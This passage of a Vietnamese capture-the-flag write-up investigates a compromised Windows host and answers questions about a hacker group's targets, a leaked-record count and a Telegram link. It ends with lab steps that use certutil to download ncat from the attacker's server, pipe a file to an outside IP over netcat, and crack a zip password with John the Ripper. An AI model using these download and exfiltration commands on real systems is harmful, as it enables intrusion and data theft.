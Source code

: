 - Để trả lời cho câu hỏi trên tôi đã dùng
```
C:\Windows\system32>findstr /I "\.hv" "C:\Users\Harry\Desktop\response.txt"
findstr /I "\.hv" "C:\Users\Harry\Desktop\response.txt"
Access-Control-Allow-Origin: https://trustbank.hv
```
==> Đáp án là **trustbank.hv**

---

## What is the number of compromised user data?
```
C:\Windows\system32>findstr /I "email" "C:\Users\Harry\Desktop\response.txt" | find /c /v ""
findstr /I "email" "C:\Users\Harry\Desktop\response.txt" | find /c /v ""
15689
```
==> Đáp án là **15689**

---

## What are any of the other websites targeted by the hacker group?
```
C:\Users\Harry\Documents\hack>type target_domains.txt
type target_domains.txt
primelogistics.hv
swiftsolutions.hv
serenewellness.hv
summitfinancialgroup.hv
creativemedia.hv
```
==> Đáp án là : **primelogistics.hv**

---

## What is the group participation link to the platform on which the hacker group communicates?

```
C:\Users\Harry\Desktop>type telegram.txt
type telegram.txt
t.me/+37NnWAZY2HTaYjM9A
```
==> Đáp án là : **t.me/+37NnWAZY2HTaYjM9A**

---

## What is the MD5 hash value of the malware used by the hacker group?

- Chuẩn bị nc64.exe cho Windows trên máy Kali (dùng Python HTTP server để phục vụ file). Công cụ này sẽ được tải xuống máy victim để dùng cho việc truyền file.
```
certutil -urlcache -f http://<my-ip>/nc64.exe C:\Windows\Temp\ncat.exe
```
- Thiết lập listener trên cổng 9001 để chờ nhận file
```
nc -lvnp 9001 > malware.zip
```
- Trên victim, dùng ncat.exe để gửi file malware.zip về cho Kali:
```
C:\Windows\Temp\ncat.exe 10.8.33.97 9001 < C:\Users\Harry\Downloads\malware.zip
```
- Crack mật khẩu của file zip bằng John the Ripper
```
zip2john malware.zip > malware.hash
```